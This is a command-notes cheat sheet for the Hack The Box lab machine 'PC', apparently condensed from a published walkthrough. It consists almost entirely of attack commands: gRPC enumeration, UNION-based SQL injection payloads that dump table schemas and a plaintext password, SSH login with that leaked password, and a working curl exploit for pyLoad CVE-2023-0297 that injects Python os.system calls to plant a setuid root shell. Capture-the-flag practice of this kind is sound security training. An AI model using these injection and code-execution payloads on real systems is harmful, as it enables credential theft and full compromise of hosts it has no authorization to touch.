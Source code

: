 # 💻 HTB: PC – Command Notes


## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.214
nmap -p 22,50051 -sCV 10.10.11.214
```

### Check Unknown Port (TCP 50051)
```bash
nc 10.10.11.214 50051
```

---

## 📡 gRPC Enumeration

### Install grpcurl (if needed)
```bash
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest
```

### Basic Enumeration
```bash
grpcurl -plaintext 10.10.11.214:50051 list
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe .LoginUserRequest
grpcurl -plaintext 10.10.11.214:50051 describe .getInfoRequest
```

---

## 👤 User Enumeration & Exploitation

### Register & Login
```bash
grpcurl -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.RegisterUser
grpcurl -v -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.LoginUser
```

### Store and Use Token
```bash
export TOKEN=<token_from_login>
grpcurl -d 'id: "54"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🩻 SQLi via gRPC

### Check SQLi with `union select`
```bash
grpcurl -d 'id: "320 union select 1"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Identify DBMS
```bash
grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Tables
```bash
grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Table Structure
```bash
grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Extract Data from `accounts` Table
```bash
grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🐚 Shell as sau

### [SSH](SSH) Login
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214
```

---

## 🚀 Privilege Escalation via PyLoad (CVE-2023-0297)

### Confirm Local Web Access
```bash
curl localhost:9666
curl localhost:8000
```

### SSH Port Forwarding
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214 -L 9666:localhost:9666 -L 8000:localhost:8000
```

### Exploit POC (CVE-2023-0297)
```bash
curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
```

### Root Shell via SetUID Bash
```bash
curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
/tmp/0xdf -p
```

---

## 🔬 Beyond Root – App Inspection

### App Location
```bash
cd /opt/app
ls
```

### Files
- `app.proto`: GRPC proto definitions
- `app.py`: GRPC service implementation
- `sqlite.db`: backend database